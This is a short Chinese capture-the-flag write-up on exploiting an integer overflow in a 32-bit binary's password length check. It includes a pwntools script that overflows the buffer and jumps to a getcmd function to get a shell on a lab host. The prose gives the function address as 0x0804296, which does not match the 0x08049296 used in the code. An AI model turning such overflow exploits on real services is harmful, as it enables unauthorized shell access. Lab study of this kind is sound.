




# Pwn-整数溢出

## 题意
给你一个`overflow.bin`

## 题解
还是两板斧，checksec检查一下，IDA反编译看一下，这次与前面的题目不同，这次是32位i386架构的程序，并且没有开canary。根据题目考虑整数溢出，在反编译的代码中，main函数并没有什么溢出点，而在check_passwd中，v3存储了s的长度，但v3只是一个无符号int8类型的整数，因此考虑整数溢出v3




从左边栏看一下getcmd，按空格找到函数的地址0x0804296，然后后面依靠Gemini3足以(~~手动狗头~~)



```python
from pwn import *

# 目标程序的地址信息
host = '172.17.0.15'
port = 18145
p = remote(host, port)


p.recvuntil("Please input your student ID:")
p.sendline("123456") # ID 随便输，只要不溢出 s[36]


padding_start = b'A' * 33

payload_ret = p32(0x08049296)

padding_end = b'B' * 224

payload = padding_start + payload_ret + padding_end

# main 函数再问 "Welcome! ... Please input your passwd:"
p.recvuntil("Please input your passwd:")
p.sendline(payload)

# 获取交互式 shell
p.interactive()

```
